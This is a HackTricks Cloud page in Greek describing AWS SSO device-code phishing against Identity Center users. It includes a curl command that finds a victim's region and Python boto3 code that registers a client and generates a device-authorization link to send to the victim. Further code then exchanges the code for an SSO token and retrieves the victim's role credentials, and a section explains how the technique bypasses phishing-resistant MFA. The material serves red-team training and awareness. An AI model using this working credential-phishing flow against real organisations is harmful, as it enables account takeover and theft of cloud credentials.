 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Μάθετε και εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε και εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Ελέγξτε τα [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Γίνετε μέλος της** 💬 [**ομάδας Discord**](https://discord.gg/hRep4RUj7f) ή της [**ομάδας telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Αρχικά προτάθηκε σε [**αυτό το blog post**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), είναι δυνατό να σταλεί ένας **σύνδεσμος** σε έναν χρήστη που χρησιμοποιεί AWS SSO που αν ο **χρήστης αποδεχτεί** ο επιτιθέμενος θα μπορέσει να αποκτήσει ένα **token για να υποδυθεί τον χρήστη** και να έχει πρόσβαση σε όλους τους ρόλους που ο χρήστης μπορεί να έχει πρόσβαση στο **Identity Center**.

Για να πραγματοποιηθεί αυτή η επίθεση οι προϋποθέσεις είναι:

* Το θύμα πρέπει να χρησιμοποιεί **Identity Center**
* Ο επιτιθέμενος πρέπει να γνωρίζει το **subdomain** που χρησιμοποιεί το θύμα `<victimsub>.awsapps.com/start`

Μόνο με τις παραπάνω πληροφορίες, ο **επιτιθέμενος θα μπορέσει να στείλει έναν σύνδεσμο στον χρήστη** που αν **αποδεχτεί** θα δώσει στον **επιτιθέμενο πρόσβαση στον λογαριασμό του AWS χρήστη**.

### Επίθεση

1. **Εύρεση του subdomain**

Το πρώτο βήμα του επιτιθέμενου είναι να βρει το subdomain που χρησιμοποιεί η εταιρεία του θύματος στο Identity Center. Αυτό μπορεί να γίνει μέσω **OSINT** ή **guessing + BF** καθώς οι περισσότερες εταιρείες θα χρησιμοποιούν το όνομά τους ή μια παραλλαγή του ονόματός τους εδώ.

Με αυτές τις πληροφορίες, είναι δυνατό να βρεθεί η περιοχή όπου το Identity Center έχει ρυθμιστεί με:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Δημιουργήστε τον σύνδεσμο για το θύμα & Στείλτε τον**

Εκτελέστε τον ακόλουθο κώδικα για να δημιουργήσετε έναν AWS SSO σύνδεσμο σύνδεσης ώστε το θύμα να μπορέσει να αυθεντικοποιηθεί.\
Για την επίδειξη, εκτελέστε αυτόν τον κώδικα σε μια python κονσόλα και μην την κλείσετε καθώς αργότερα θα χρειαστείτε κάποια αντικείμενα για να πάρετε το token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Στείλτε τον παραγόμενο σύνδεσμο στο θύμα χρησιμοποιώντας τις εξαιρετικές σας δεξιότητες κοινωνικής μηχανικής!

3. **Περιμένετε μέχρι το θύμα να τον αποδεχτεί**

Αν το θύμα ήταν **ήδη συνδεδεμένο στο AWS** θα χρειαστεί μόνο να αποδεχτεί την παραχώρηση των δικαιωμάτων, αν δεν ήταν, θα χρειαστεί να **συνδεθεί και μετά να αποδεχτεί την παραχώρηση των δικαιωμάτων**.\
Έτσι φαίνεται το προτροπή στις μέρες μας:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Αποκτήστε SSO access token**

Αν το θύμα αποδέχτηκε την προτροπή, εκτελέστε αυτόν τον κώδικα για να **δημιουργήσετε ένα SSO token προσποιούμενοι τον χρήστη**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Το SSO access token είναι **έγκυρο για 8 ώρες**.

5. **Υποδυθείτε τον χρήστη**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Είναι διασκεδαστικό να γνωρίζουμε ότι η προηγούμενη επίθεση **λειτουργεί ακόμα και αν χρησιμοποιείται ένα "unphisable MFA" (webAuth)**. Αυτό συμβαίνει επειδή η προηγούμενη **ροή εργασίας δεν αφήνει ποτέ τον χρησιμοποιούμενο τομέα OAuth**. Όχι όπως σε άλλες επιθέσεις phishing όπου ο χρήστης πρέπει να αντικαταστήσει τον τομέα σύνδεσης, στην περίπτωση αυτή η ροή εργασίας του κωδικού συσκευής είναι προετοιμασμένη έτσι ώστε ένας **κωδικός να είναι γνωστός από μια συσκευή** και ο χρήστης μπορεί να συνδεθεί ακόμα και σε διαφορετική μηχανή. Αν γίνει αποδεκτή η προτροπή, η συσκευή, απλά με το **να γνωρίζει τον αρχικό κωδικό**, θα είναι σε θέση να **ανακτήσει διαπιστευτήρια** για τον χρήστη.

Για περισσότερες πληροφορίες σχετικά με αυτό [**ελέγξτε αυτήν την ανάρτηση**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Γίνετε μέλος της** 💬 [**ομάδας Discord**](https://discord.gg/hRep4RUj7f) ή της [**ομάδας telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο github.

</details>
{% endhint %}

